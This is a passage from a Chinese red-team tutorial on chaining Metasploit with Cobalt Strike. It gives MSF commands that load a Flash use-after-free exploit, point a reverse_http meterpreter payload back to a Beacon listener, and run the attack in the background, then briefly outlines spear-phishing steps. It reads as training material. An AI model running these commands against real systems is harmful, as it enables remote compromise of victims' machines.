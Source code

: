 #### 联动MSF

如果想使用MSF对目标进行漏洞利用，再通过这个漏洞来传输Beacon的话，也是可以的。

1、首先在MSF上选择攻击模块

2、接着在MSF上设置Payload为`windows/meterpreter/reverse_http`或者`windows/meterpreter/reverse_https`，这么做是因为CS的Beacon与MSF的分阶段协议是相兼容的。

3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。

4、然后设置 `DisablePayloadHandler` 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。

5、再设置 `PrependMigrate` 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

6、最后运行`exploit -j`，-j 是指作为job开始运行，即在后台运行。

**操作**

在CS中新建一个HTTP Beacon，创建过程不再赘述。

1、在MSF中选择攻击模块，根据教程这里选择的`adobe_flash_hacking_team_uaf`模块，不过个人感觉现在这个模块已经不太能被利用成功了。

```
use exploit/multi/browser/adobe_flash_hacking_team_uaf
```

2、接着配置payload，这里选择revese_http payload

```
set payload windows/meterpreter/reverse_http
set LHOST cs_server_ip
set LPORT 80
```

3、之后，配置`DisablePayloadHandler`、`PrependMigrate`为 True

```
set DisablePayloadHandler True
set PrependMigrate True
```

4、最后，开始攻击。

```
exploit -j 
```

![image-20220213223714440](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281115902.png)

#### 鱼叉钓鱼

四个步骤：

1. 创建目标清单
2. 制作邮件模版或者使用现成模版
3. 选择邮件服务器
4. 发送邮件
